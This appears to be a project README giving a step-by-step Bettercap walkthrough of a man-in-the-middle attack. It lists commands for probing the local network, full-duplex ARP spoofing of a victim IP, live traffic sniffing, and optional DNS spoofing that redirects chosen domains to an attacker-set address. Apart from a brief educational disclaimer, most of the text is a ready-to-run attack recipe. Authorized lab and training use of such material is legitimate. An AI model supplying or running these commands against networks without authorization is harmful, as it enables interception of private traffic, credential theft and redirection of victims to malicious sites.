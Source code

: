 # ARP Spoofing using Bettercap for MITM Attack

## Overview

This project demonstrates how to perform a Man-in-the-Middle (MITM) attack using **Bettercap** through ARP spoofing. The goal is to intercept and manipulate network traffic between a victim device and the router. This attack showcases how ARP spoofing can be used for network sniffing and DNS spoofing.

## Tools and Technologies

- **Bettercap**: A powerful, flexible tool for network monitoring and attacks.
- **ARP Spoofing**: Redirect network traffic by pretending to be the router or another device in the network.
- **DNS Spoofing**: Redirect specific domain requests to a designated IP address.
- **Network Sniffing**: Capturing and viewing real-time network traffic.

## Steps to Perform ARP Spoofing with Bettercap

1. **Install Bettercap**: Make sure Bettercap is installed on your system.

   ```bash
   sudo apt install bettercap
   ```

2. **Start Bettercap**: Launch Bettercap’s command-line interface (CLI).

   ```bash
   sudo bettercap
   ```

3. **Discover Devices in the Network**:

   - Turn on network probing to find devices on the network.

   ```bash
   net.probe on
   ```

   - View the discovered devices.

   ```bash
   net.show
   ```

4. **Enable Full Duplex Mode for ARP Spoofing**:

   - Enable full-duplex ARP spoofing to act as a relay between the victim and the router.

   ```bash
   set arp.spoof.fullduplex true
   ```

5. **Set Target Device**:

   - Set the victim’s IP address as the target (replace `192.168.1.7` with the target's IP address).

   ```bash
   set arp.spoof.targets 192.168.1.7
   ```

6. **Activate ARP Spoofing**:

   - Begin ARP spoofing to intercept network traffic.

   ```bash
   arp.spoof on
   ```

7. **View Real-Time Network Traffic**:
   - Enable network sniffing to monitor live traffic.
   ```bash
   net.sniff on
   ```

## DNS Spoofing (Optional)

If you want to redirect the victim’s traffic to a specific IP address, you can perform DNS spoofing as well.

1. **Set DNS Spoofing Address**:

   - Redirect DNS queries to the desired IP address (replace `<IP>` with the target IP).

   ```bash
   set dns.spoof.address <IP>
   ```

2. **Set Domains for Spoofing**:

   - Specify which domain(s) to spoof (e.g., `example.com`).

   ```bash
   set dns.spoof.domains <URL>
   ```

3. **Activate DNS Spoofing**:
   ```bash
   dns.spoof on
   ```

## Disclaimer

This project is for educational purposes only. Unauthorized use of ARP or DNS spoofing may be illegal and is not permitted without explicit permission. Always ensure you have the proper authorization before conducting such tests.

## References

- [Bettercap Documentation](https://www.bettercap.org)
- [ARP Spoofing Explained](https://www.varonis.com/blog)
